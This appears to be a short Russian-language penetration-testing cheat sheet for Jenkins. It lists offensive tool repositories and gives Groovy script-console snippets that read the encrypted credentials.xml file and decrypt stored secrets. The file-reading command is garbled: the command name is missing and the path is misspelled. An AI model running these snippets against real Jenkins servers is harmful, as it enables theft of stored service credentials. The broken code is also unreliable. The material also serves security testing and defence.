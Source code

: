 # Jenkins

Jenkins:\
[https://github.com/DolosGroup/Jenkins-Pillage](https://github.com/DolosGroup/Jenkins-Pillage)

PWN:\
[https://github.com/gquere/pwn\_jenkins](https://github.com/gquere/pwn\_jenkins)\
[https://github.com/Accenture/jenkins-attack-framework](https://github.com/Accenture/jenkins-attack-framework)

## Примеры

### Консоль

https://host/jenkins/script

#### Получение зашифрованных паролей

Jenkins хранит учетные данные для различных сервисов, указанных по адресу https://host/jenkins/credentials/, а в файловой системе эти учетные данные хранятся в зашифрованном виде в файле /var/jenkins\_home/credentials.xml.

```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = ' /var/jenikins_home/credentials.xml'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

#### Расшифрование паролей

```groovy
println(hudson.util.Secret.decrypt("{AQAA...BBr}"))
```
